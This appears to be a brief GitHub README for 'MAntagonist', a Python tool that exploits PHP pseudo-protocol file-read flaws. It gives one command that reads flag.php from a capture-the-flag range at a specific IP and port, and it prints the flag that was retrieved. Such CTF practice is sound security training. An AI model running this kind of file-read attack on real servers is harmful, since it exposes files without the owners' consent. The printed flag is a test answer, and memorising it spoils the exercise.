



  <div align="center">
 
 <p align="center">
 
 
 
  
 
 
 </p>
  
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>PHP pseudo protocol file read explosion</th>
  </tr>
 </table>
</div>

## usage method
  * View help information

      ```#python3 MAntagonist -h```

    

# Range construction


    


 ```#python3 MAntagonist.py -url http://61.147.171.105:50731?filename=* -file flag.php```

    
  

_Get Flag_

``cyberpeace{8d2fcc664b0660ce0ae4d0e78ac71424}``